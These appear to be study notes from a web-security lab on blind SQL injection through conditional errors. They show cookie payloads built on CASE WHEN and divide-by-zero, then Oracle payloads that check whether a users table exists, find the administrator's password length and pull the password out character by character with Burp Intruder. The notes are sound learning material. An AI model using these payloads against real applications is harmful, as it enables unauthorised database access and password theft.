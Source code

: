      

## Inducing conditional responses by triggering SQL errors

  
The results of the SQL query are not returned, which means we cannot use UNION based SQLi. And the application does not respond any differently based on whether the query returns any rows, which means we cannot use Blind based SQLi based on Conditional Responses. If the SQL query causes an error, then the application returns a custom error message, which means we can use Blind based SQLi based on Conditional Errors.  

   In this situation, it is often possible to induce the application 		to return conditional responses by triggering SQL errors conditionally, depending on an injected condition. This involves modifying the query so that it will cause a database error if the condition is true, but not if the condition is false. Very often, an unhandled error thrown by the database will cause some difference in the application's response (such as an error message), allowing us to infer the truth of the injected condition.   
   
To see how this works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:   
<font color=ligreen>xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a  
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a </font>

These inputs use the `CASE` keyword to test a condition and return a different expression depending on whether the expression is true. With the first input, the `CASE` expression evaluates to `'a'`, which does not cause any error. With the second input, it evaluates to `1/0`, which causes a divide-by-zero error. Assuming the error causes some difference in the application's HTTP response, we can use this difference to infer whether the injected condition is true.   

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:   
<font color=ligreen>xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a   
  

### Note :  
  
There are various ways of triggering conditional errors, and different techniques work best on different database types.  
	
`Oracle database need FROM clause and needs || instead of +   `
  
  
	Inducing conditional responses by triggering SQL errors in Oracle Database  
<font color=ligreen>
	‘|| (select ’' from dual)--    //to confirm its a oracle database  

<font color=ligreen>	‘ || (select ’' from users where rownum=1)- </font>- ``//checking whether the users table exists and using rownum=1 inorder to ensure it outputs only 1 entry and not crash the sql query by ouputting all entires in row `` 

<font color=ligreen>	‘ || (select ’' from users where username='administrator')-- ``//this doesnt work and doesnt even errors out even if administrator user exists or not in users table, so this a bad way  ``

<font color=ligreen>	‘ || (select CASE WHEN (1=1) THEN to_char(1/0) ELSE ‘’ END from dual)--  

<font color=ligreen>	‘ || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ’' END FROM users where username='administrator') || ‘ ``//we need to understand the order of execution in sql, i.e. first of all from FROM users where username=’administrator' will be executed and if username do exists then the select portion of code will be executed, returning error.  ``

	But if username doesnt exists then the select portion wont be executed returning 200OK  

<font color=ligreen>	‘ || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ’' END FROM users where username='administrator' and LENGTH(password)=5) || ‘ ``//we can use burp intruder to know the password length  ``

<font color=ligreen>	‘ || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ’' END FROM users where username='administrator' and substr(password,1,1)='a') || ‘ `//we can user burp intruder and clusterbomb style for the 1 and ‘a’ iteration`